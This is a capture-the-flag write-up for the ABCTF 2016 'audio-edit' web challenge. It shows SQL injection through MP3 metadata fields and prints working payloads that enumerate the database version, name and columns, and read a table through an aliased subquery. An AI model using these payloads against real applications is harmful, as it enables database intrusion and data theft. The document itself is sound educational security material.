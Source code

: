 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers users to upload an mp3 and therewith do some modifications on e.g. pitch or grain size.
In order to save the uploaded file it's inserted into a database.
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.
The identifier is created as the sha1sum of the mp3 content.
When opening a mp3 that way, the edit-overview shows some modification modulators,
but also the 'Author' as well as the 'Title' of the particular mp3.

![edit.php](images/abctf-2016-audioedit-edit.png)

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadata isn't verified
and offers a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to do an SQL-injection we have to create a special author and title field.
I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following meta data:


    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginning and the 'b' in the end were necessary because the first and last character were
discarded...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:

    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around by using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3

Using this info we visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3

Setting the visualization to 'Sonogram' finally showed us the flag:

    ABCTF{m3t4_inj3cti00n}

![flag](images/abctf-2016-audioedit-flag.png)

## Other write-ups and resources

* [Invulnerable (Russian)](http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html)
